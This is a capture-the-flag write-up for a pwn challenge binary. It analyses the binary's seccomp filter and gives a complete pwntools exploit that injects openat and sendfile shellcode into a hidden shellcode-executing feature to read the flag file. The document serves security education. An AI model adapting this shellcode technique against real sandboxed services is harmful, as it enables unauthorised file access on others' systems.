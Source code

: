 # Fleet Management

We are given only the binary

Running `checksec`
```bash
gef➤  checksec
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : Full
```

## Analysis
There is an interesting function in the binary called `beta_feature`. This function creates a heap memory with RWX permissions. Then, it reads shellcode from stdin and execute it.

The binary uses `seccomp` which only allows `rt_sigreturn`, `sendfile`, `exit`, `exit_group` and `openat`.
```bash
0000: 0x20 0x00 0x00 0x00000004  A = arch
0001: 0x15 0x00 0x09 0xc000003e  if (A != ARCH_X86_64) goto 0011
0002: 0x20 0x00 0x00 0x00000000  A = sys_number
0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
0004: 0x15 0x00 0x06 0xffffffff  if (A != 0xffffffff) goto 0011
0005: 0x15 0x04 0x00 0x0000000f  if (A == rt_sigreturn) goto 0010
0006: 0x15 0x03 0x00 0x00000028  if (A == sendfile) goto 0010
0007: 0x15 0x02 0x00 0x0000003c  if (A == exit) goto 0010
0008: 0x15 0x01 0x00 0x000000e7  if (A == exit_group) goto 0010
0009: 0x15 0x00 0x01 0x00000101  if (A != openat) goto 0011
0010: 0x06 0x00 0x00 0x7fff0000  return ALLOW
0011: 0x06 0x00 0x00 0x00000000  return KILL
```

So, we cannot do the typical open-read-write. However, we can do openat-sendfile. It is similar to open-read-write.

Issue: "flag.txt" is not in the binary

Solution: 
- Firstly, We can place the null byte on the stack.
```
xor rdx, rdx
push rdx
```
- Next, we place "flag.txt" (in little endian) on the stack. (Note: we cannot push the string directly on the stack. I think it is too large to be an instruction?)
```
mov rsi, 0x7478742e67616c66
push rsi
```
- So now, the "flag.txt" string is at the top of the stack (aka the value in RSP register points to the string). So, we can assign the value in RSP register to any register.
```
mov rsi, rsp
```

Note: `openat` (syscall 257) and `open` are equivalent. However, if we used relative path in `pathname` parameter for `openat`, the OS will open the file that is relative to the directory referred to by the `dirfd` parameter instead of the current working directory. If we want to use the current working directory for `openat`, our `dirfd` must be set to `AT_FDCWD` (-100). If success, it will return a new file descriptor.

Note: `sendfile` (syscall 40) copies data from file descriptor to another file descriptor. It can be used to replace the combination of `read` and `write`. In fact, it is more efficient as the copying is done within the kernel.

## Exploit
Idea: Place "flag.txt" string at the top of the stack. Open "flag.txt" using `openat`. Copies data from the new file descriptor to stdout using `sendfile`. 

```python
from pwn import *

context.arch = "amd64"

# Note: can mov 8 bytes of data, but cannot push 8 bytes of data
# AT_FDCWD (-100) - current directory

# shellcode:
# openat(AT_FDCWD, "flag.txt", 0) - open file with read only permission
# sendfile(1, 3, 0, 40)
shellcode = asm('''
        xor rdx, rdx
        push rdx
        mov rsi, 0x7478742e67616c66
        push rsi
        mov rsi, rsp
        mov rdi, -100 
        mov rax, 257
        syscall
        xor rdi, rdi
        inc rdi
        mov rsi, rax
        mov r10, 40 
        mov rax, 40
        syscall
        ''', arch="amd64")

# print(len(shellcode)) # has to be <= 60

elf = ELF('./fleet_management')
r = elf.process()
#r = remote('178.62.119.24', 30666)
#pause()
r.sendlineafter(b'What do you want to do?', b'9') # beta feature
r.sendline(shellcode)

r.interactive()
```

Flag: `HTB{backd00r_as_a_f3atur3}`